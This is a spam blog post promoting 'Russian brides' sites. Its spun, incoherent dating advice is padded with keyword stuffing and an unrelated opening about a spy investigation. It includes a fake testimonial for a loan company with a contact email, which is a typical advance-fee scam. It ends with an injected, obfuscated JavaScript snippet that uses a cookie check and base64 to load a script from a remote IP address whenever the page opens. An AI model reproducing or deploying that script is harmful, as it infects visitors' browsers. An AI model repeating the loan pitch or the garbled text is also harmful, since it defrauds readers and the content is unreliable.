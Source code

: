 ```yaml
---
title: Thoughts On Critical Factors In Hot Russian Brides
tags: []
id: '1097'
categories:
  - - uncategorized
date: 2019-03-31 16:00:00
---
```


For months I investigated the previous of Jobbik EP-consultant and suspected spy, Béla Kovács, and his Russian wife, Svetlana Istoshina, and by the top I had the sensation of being a part of a spy film: I discovered parallel marriages, secret Japanese and Austrian husbands and mysterious journeys, and I also managed to loosen the tongues of several former KGB-agents. In case you are over the age of twenty-five russian wives, you almost certainly started your romantic communication journey in grade college, whenever you passed notes back and forth to the flame of the day. In highschool, you spent the vast majority of your time not finding out, however talking on the phone together with your promenade dates.

You can also start by asking her what she's looking for. Attempt something alongside the strains of: I have been having numerous fun and I'm simply questioning what you're on the lookout for out of this.” Let her know that you don't want an answer instantly, however russians brides that you just'd like to speak about it earlier than this goes too far. Personally, I think it is a great conversation to have via textual content , since people are extra prone to be honest by way of textual content and they can reply on their very own timeline, as soon as they've had an opportunity to place some thought into their answer.

## Deciding On Effective Plans Of Russians Brides

I am with Jeff right here. A few of this may increasingly work a number of the time with some women. I believe you do girls a bit russiansbrides of a disservice by classing them all the same way. It verges on the sexist. Have you ever ever used a dating app or web site in Japan? Share your experiences in the feedback.![](http://blog.boombotix.com/wp-content/uploads/2013/05/Online-Dating.jpeg)

5) You leave only with the friends you got here with. Stop annoying your wife by arguing together with her and make her really feel like you might be putting an effort to iron out the tiny differences russian wives in your relationship. It is going to make her need to give back into the connection and the wedding.

This involves speaking much less and listening extra. Slow down. Let her do most of the speaking and take the pressure off of your self. Ask deeper questions that assist russian brides for marriage you display for the qualities you need in a lady. Then share a related opinion , story , or joke when it feels pure.

Or perhaps you may attempt talking about The International (TI) and nice video games that have been played. For instance, watch "Natus Vincere - Can you feel russian brides for marriage it" on YT. If you get pumped from that then you'll understand how he feels about he game a bit more.

## A Guide To Root Details Of RussiansBrides

And I advised him that I'm not involved of any mortgage deal anymore however he advised me that there is still a pleasant lender who he'll suggest me to, and I made a trial and I am most grateful lucky am I at this time, I was given a mortgage quantity of $2,000,000.00usd, by this great Company russian brides (Robert Junior Loan Firm) managed by (Mr. Robert Junior ) In case you are in want of a genuine or legit loan or monetary help and you may be dependable and trusted of capable of paying again at the due time of the funds I'll advice you to, contact him via: ( robert.juniorloan071@ ) And you can be free from scams within the internet.

The primary date is essential, so make sure you can make time for her, and schedule in an hour with her using a connection building exercise. First dates shouldn't price a lot cash, if any, at all [russian ladies russiansbrides](https://russiansbrides.com/). Since she and I am unable to meet till later tonight, we're grabbing drinks, and on the subject of drinks my rule is no more than 2 drinks to maintain both time and money in verify.

Be playful. On the right time, present her your foolish facet by making a goofy comment. No girl likes a man who takes himself too significantly. Stepping again into the world of dating for the first time in what feels russian wife like endlessly is intimidating. 2. Make a choice maximally specified. On the chosen mail order web site set up criteria of a woman you needn't to spend time on unneeded brides.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}